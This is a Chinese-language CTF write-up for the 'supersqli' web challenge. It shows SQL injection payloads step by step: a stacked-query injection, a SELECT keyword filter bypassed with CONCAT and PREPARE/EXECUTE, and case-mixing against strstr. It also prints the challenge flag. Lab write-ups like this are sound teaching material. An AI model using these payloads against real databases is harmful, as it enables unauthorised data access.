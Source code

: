 ```yaml
---
title: wp-攻防世界WEB-supersqli
date: 2020-07-08 20:37:25
id: 20200708203725
tags: 
	- CTF
	- writeup
categories: 网络安全
keywords: supersqli
---
```


首先先判断注入类型。可以通过输入一些字符串，在判断是否存在注入的同时判断注入类型。

```sql
?inject=1-0
?inject=1 \
?inject=1'
```

测试发现在输入`1'`和`1 \`时会出现报错信息。

![image-20200708204254295](https://superj.oss-cn-beijing.aliyuncs.com/image-20200708204254295.png)

![image-20200708204320617](https://superj.oss-cn-beijing.aliyuncs.com/image-20200708204320617.png)

发现该位置是一个字符型的注入。因此构造注入语句判断该注入有几个注入位置。

```sql
?inject=1' order by x %23
```

> 这里的%23是#的url编码，因为#在url中代表这锚点，有自己的意义，一次要编码。也可使用`--+`、`--%20`等。

当x为3时报错，因此之后两列。

```sql
?inject=1' union select 1,2
```

执行后发现，正则会过滤select等关键字符串。

![image-20200708204930318](https://superj.oss-cn-beijing.aliyuncs.com/image-20200708204930318.png)

在尝试内嵌注释语句打算绕过过滤后，发现无用，尝试堆叠注入。

```sql
?inject=1';show tables %23
```

执行后，得到表名。

![image-20200708205847423](https://superj.oss-cn-beijing.aliyuncs.com/image-20200708205847423.png)

分别查看两个表中的内容。

```sql
?inject=1';show columns from words; %23
?inject=1';show columns from `1919810931114514`; %23
```

> 表名是数字或者是其他特殊点的字符组成的要用``来包住，表名中间的是表名、数据库名、字段名。

<img src="https://superj.oss-cn-beijing.aliyuncs.com/image-20200708210551880.png" alt="image-20200708210551880" style="zoom:50%;" />

<img src="https://superj.oss-cn-beijing.aliyuncs.com/image-20200708210612599.png" alt="image-20200708210612599" style="zoom:50%;" />

可以看到在`1919810931114514`中有flag字段。现在就需要拿到flag字段中的值。`select`关键字被过滤。我们可以通过预编译来绕过。

```sql
?inject=1';set @sql = concat('sel','ect flag from `1919810931114514`');prepare stmt from @sql;execute stmt; %23
```

<img src="https://superj.oss-cn-beijing.aliyuncs.com/image-20200708211458209.png" alt="image-20200708211458209" style="zoom:50%;" />

发现通过`strstr`过滤了set和prepare，但是这个函数区分大小写，所以通过大小写绕过。

```sql
?inject=1';sEt @sql = concat('sel','ect flag from `1919810931114514`');prepAre stmt from @sql;execute stmt; %23
```

得到flag：flag{c168d583ed0d4d7196967b28cbd0b5e9}。

# 总结

通过这道题目，首先知道了`#`为什么在注入的时候达不到预期的情况，然后知道了堆叠注入的姿势，在常规的注入不成功的时候，可以考虑一下这种注入方式。最后也掌握了通过预编译的方式，通过concat函数绕过关键字符串的限制，同时，也了解`strstr`函数时区分大小写的。